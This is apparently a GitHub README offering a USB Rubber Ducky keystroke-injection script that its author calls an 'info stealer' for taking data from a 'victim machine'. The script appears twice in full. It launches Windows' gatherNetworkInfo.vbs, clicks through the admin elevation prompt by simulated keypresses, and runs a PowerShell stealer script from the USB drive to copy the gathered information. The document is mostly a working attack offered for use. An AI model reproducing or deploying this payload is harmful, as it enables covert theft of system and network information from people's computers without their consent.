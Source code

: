 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the</BR>
C:\Windows\System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
</BR>
REM https://github.com/JonnyBanana
</BR>
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
</BR>
DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
REM run as admin
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
REM the scripts require a little of time to create the files....
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
REM the last command  takes about thirty seconds to copy all the informations
</BR>
REM so be patient...



<h6>Script Without Comments</H6>

DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>




<h3>Quack Yo Life!!!</h3>
</BR>
![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/fun.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")
